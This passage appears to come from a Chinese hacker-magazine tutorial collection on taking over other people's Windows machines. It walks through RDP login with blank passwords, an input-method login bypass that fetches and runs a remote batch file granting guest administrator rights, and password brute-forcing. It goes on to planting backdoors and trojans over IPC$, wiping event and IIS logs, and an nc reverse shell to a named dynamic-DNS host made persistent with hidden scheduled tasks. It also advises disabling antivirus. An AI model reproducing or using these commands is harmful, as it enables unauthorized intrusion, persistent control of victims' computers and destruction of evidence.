

图3



图4

### 二、如何登录远程桌面

扫描到开启了 3389 端口的主机后，使用 XP 系统的用户可以使用“远程桌面连接”，而使用其它系统的用户则可以使用 3389 登录器来登录远程桌面。比如我们在 XP 系统中点击“开始”→“程序”→“附件”→“通讯”→“远程桌面连接”，在弹出的远程桌面连接窗口中，“计算机”一栏中输入想要远程登录的计算机名称或 IP 地址，如图5，点击“连接”后就会出现远程计算机的登录界面。

我们只有输入正确的用户名和密码后才能登录进入远程桌面，如图6。但通常我们是未知这个登录用户名和密码的，这时可以使用 administrator、new 或 guest 作为用户名，密码为空来尝试登录，如果还无法登录，就可以尝试使用下面要介绍的输入法漏洞以及暴力破解这两种方法来解决了。



图5



图6

#### 1、输入法漏洞

如果远程主机存在输入法漏洞，那我们就可以绕过系统的身份验证，即使没有账号和密码也能够登录进入。具体的方法如下：打开记事本，输入以下命令：

```bash
net user guest /active:yes
net user guest ahla
net localgroup administrators guest /add
```

第一行命令就是激活系统中的 Guest 账户，第二行命令是将 Guest 账户的密码设置为 ahla，第三行命令是将 Guest 账户添加到系统管理员组中。在记事本中点击“文件”→“另存为”，我把文件保存为了 srf.bat，再把这个 srf.bat 文件上传到 163 等免费个人主页空间中，比如上传的具体路径为“http://x.x.x.x/srf.bat”。

打开远程桌面连接，在远程计算机的登录界面中按下 Ctrl+Shift 键调出全拼输入法，右键点击“全拼”左边的微软标志，弹出了全拼输入法的快捷菜单，我们选择“帮助”→“操作指南”，如图7，就打开了“输入法操作指南”窗口。

在该窗口的基本操作目录下任意选择一项帮助目录，然后点击鼠标右键，在弹出的快捷菜单中选择“跳至 URL”，然后在“跳至该 URL”栏中输入“d:\”，点击“确定”就会列出 D 盘中的文件夹了，如图8。当然我们在这里可以输入“http://x.x.x.x/srf.bat”，然后点击“确定”，在“文件下载”对话框中选择“在当前位置运行该程序”，点击“确定”按钮后就会运行 srf.bat 中的命令了。最后我们关闭输入法帮助文件窗口，使用用户名 guest、密码 ahla 就可以登录进入远程桌面了，此时 Guest 就为系统管理员账户，抓肉机大功告成！



图7



图8

#### 2、暴力破解

如果知道了远程系统的登录用户名（比如 Administrator），就可以使用知音 3389 爆破工具来暴力破解其密码，然后就可以使用该账户和破解出的密码来登录远程计算机的 3389 了。具体的方法如下：先用密码字典软件生成一个密码字典文件（aaa.txt），下载并运行知音 3389 爆破工具，在“目标 IP”中输入扫描到的开放 3389 端口的 IP 地址，“用户”栏输入 Administrator，选择密码字典后点击“开始（Scan）”，程序会自动尝试各类密码并显示结果。若显示 failed 则该密码无效，若显示 Success 则说明破解成功。


图10

### 三、在肉机上留后门

登录进入远程计算机的桌面后，我们就可以像在本地操作自己的电脑那样来操作远程计算机了。点击“开始”→“程序”→“附件”→“命令提示符”，先使用“net user”命令查看一下对方系统管理组中都有哪些用户名，然后我们就可以留后门了，方便以后的进入。



图9

#### 1、建立一个账户或激活 Guest

使用“net user 用户名 密码 /add”来建立一个与已有用户名相似的账户用来迷惑管理员，或者执行下面的命令来激活并升级 Guest 账户：

```bash
net user guest /active:yes
net user guest ahla
net localgroup administrators guest /add
```

#### 2、使用 IPC 管道连接肉机

我们在本机的命令提示符下可以直接使用“net use \\肉机IP\ipc$ "ahla" /user:"guest"”来连接远程计算机。

#### 3、上传后门程序

连接后，再使用下面的命令把后门程序或配置好的木马上传到肉机的 C 盘或其他目录下：“copy 后门程序 \\肉机IP\c$”。

### 四、删除肉机上日志

如果我们不想让对方掌握自己的入侵证据，那就删除肉机上系统日志吧。在本机的命令提示符下依次执行下面命令：

```bash
net use \\肉机IP\ipc$ "ahla" /user:"guest"
copy CleanIISLog.exe \\肉机IP\c$
net use \\肉机IP\ipc$ "ahla" /user:"guest"
cleaniislog.exe -s \\我的IP -l "application" -C
cleaniislog.exe -s \\我的IP -l "system" -C
cleaniislog.exe -s \\我的IP -l "security" -C
net stop w3svc
del c:\winnt\system32\logfiles\*.* /s /f /q
del d:\winnt\system32\logfiles\*.* /s /f /q
net start w3svc
net use \\肉机IP\ipc$ /delete
```

最后，再提醒一下大家，本文中用到的一些软件，杀毒软件会查杀的，因此我们在解压或执行程序前，最好先关闭杀毒软件。

> （文章中涉及到的 X-Scan 3.3、中国知音 3389 爆破工具，已经收录在了光盘中）

## 菜鸟学堂

## 瑞士军刀NC简易教程

swan

NC，被称为网络中的“瑞士军刀”，在黑客们的入侵过程中，经常被作为内网端口的转发工具，有时候也用来提交肉鸡的 CMDSHELL。今天，我们就使用它的提交远程 CMDSHELL 的功能来抓肉鸡。

- 1. 在本地电脑的 C 盘下使用 NC 来监听 8000 端口（这个监听的端口可以自己自定），具体命令为 `nc -v -l -p 8000`，如图1。
- 2. 在远程肉鸡的 F 盘（当然也可以是其它的盘）下执行提交命令，具体命令为 `nc -e cmd.exe swan7110.3322.org 8000`，其中 swan7110.3322.org 是我申请的动态域名，对应了我电脑的 IP 地址，大家可以到希网网站手动更新或者使用我提供的希网更新器来自动更新。这种方式因为是反向连接，所以可以穿越多数的防火墙，如图2。







此时，我们返回到本地电脑，在 C 盘的 cmd 命令提示符下轻易地就得到了远程主机发来的 CMDSHELL 了，如图3。从这个过程我们也可以看出，在本地电脑监听要在肉鸡连接前进行，而且当一个肉鸡连接上后，另一个肉鸡是无法再连接的，最麻烦的就是自启动问题了，所以我们需要解决的是，如何保证肉鸡频繁地连接自己的 IP 以及自启动问题！

对于这个问题，我建议使用微软自身的服务，也就是 SCHEDULE 服务，定时来启动，或者是使用任务计划。关于 AT 命令的使用格式以及具体参数，如图4所示，使用这个命令，我们就可以让电脑频繁地启动我们构建的程序，它也包含远程连接命令。



大致的利用方法如下：使用 WINRAR 创建一个自解压文件，运行后会释放 NC、sw.exe 以及 sa.exe，并且会自动运行 sw.exe，而这个 sw.exe 就是定时启动程序 sa.exe，当然越频繁越好，在 sa.exe 里是连接命令。其中 sw.exe 以及 sa.exe 都是经过批处理潜行者隐藏窗口的批处理文件。

（文章中涉及到的 nc.exe、RAR-SFX 防解压补丁 V2.0、XWDNSUP.exe、批处理潜行者，已经收录在了光盘中）

### 核查自由生活——FTP弱口令下的入侵

EchoEye/侯其涛[B.B.E]

一直以来我写的都是关于网站漏洞分析和利用的文章，这次就转换风格，给大家写了一篇简单而又很容易上手的文章，希望各位都能喜欢。事情的起因是这样的，前几天 Q 群里有个人突然发了 N 个网站的 FTP 账号和密码，起先我以为是假的，结果一试，居然大部分都可以成功地登录进去。



图1

